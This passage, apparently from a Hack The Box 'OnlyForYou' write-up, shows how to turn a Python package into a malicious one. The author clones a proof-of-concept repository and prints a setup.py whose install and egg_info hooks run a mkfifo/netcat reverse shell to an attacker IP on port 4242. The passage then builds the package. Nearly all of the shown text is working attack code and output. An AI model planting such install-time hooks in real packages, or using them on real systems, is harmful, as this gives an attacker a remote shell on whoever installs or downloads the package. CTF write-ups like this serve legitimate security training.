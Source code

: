 We can [create a Malicious Python Packages and Code Execution via pip download](https://embracethered.com/blog/posts/2022/python-package-manager-install-and-download-vulnerability/).

First, let's clone the following repository: https://github.com/wunderwuzzi23/this_is_fine_wuzzi and modify the `setup.py` with our reverse shell code:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ git clone https://github.com/wunderwuzzi23/this_is_fine_wuzzi
Cloning into 'this_is_fine_wuzzi'...
remote: Enumerating objects: 37, done.
remote: Counting objects: 100% (37/37), done.
remote: Compressing objects: 100% (33/33), done.
remote: Total 37 (delta 17), reused 8 (delta 1), pack-reused 0
Receiving objects: 100% (37/37), 9.14 KiB | 100.00 KiB/s, done.
Resolving deltas: 100% (17/17), done.
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ cat setup.py
cat setup.py 
from setuptools import setup, find_packages
from setuptools.command.install import install
from setuptools.command.egg_info import egg_info
import os

def RunCommand():
    os.system("rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.20 4242 >/tmp/f")

class RunEggInfoCommand(egg_info):
    def run(self):
        RunCommand()
        egg_info.run(self)


class RunInstallCommand(install):
    def run(self):
        RunCommand()
        install.run(self)

setup(
    name = "this_is_fine_wuzzi",
    version = "0.0.1",
    license = "MIT",
    packages=find_packages(),
    cmdclass={
        'install' : RunInstallCommand,
        'egg_info': RunEggInfoCommand
    },
)
```

Next, we need to build it using `python3 -m build`:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ python3 -m build
* Creating venv isolated environment...
* Installing packages in isolated environment... (setuptools >= 40.8.0, wheel)
* Getting build dependencies for sdist...
running egg_info
...
adding 'this_is_fine_wuzzi-0.0.1.dist-info/LICENSE'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/METADATA'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/WHEEL'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/top_level.txt'
adding 'this_is_fine_wuzzi-0.0.1.dist-info/RECORD'
removing build/bdist.linux-x86_64/wheel
Successfully built this_is_fine_wuzzi-0.0.1.tar.gz and this_is_fine_wuzzi-0.0.1-py3-none-any.whl
```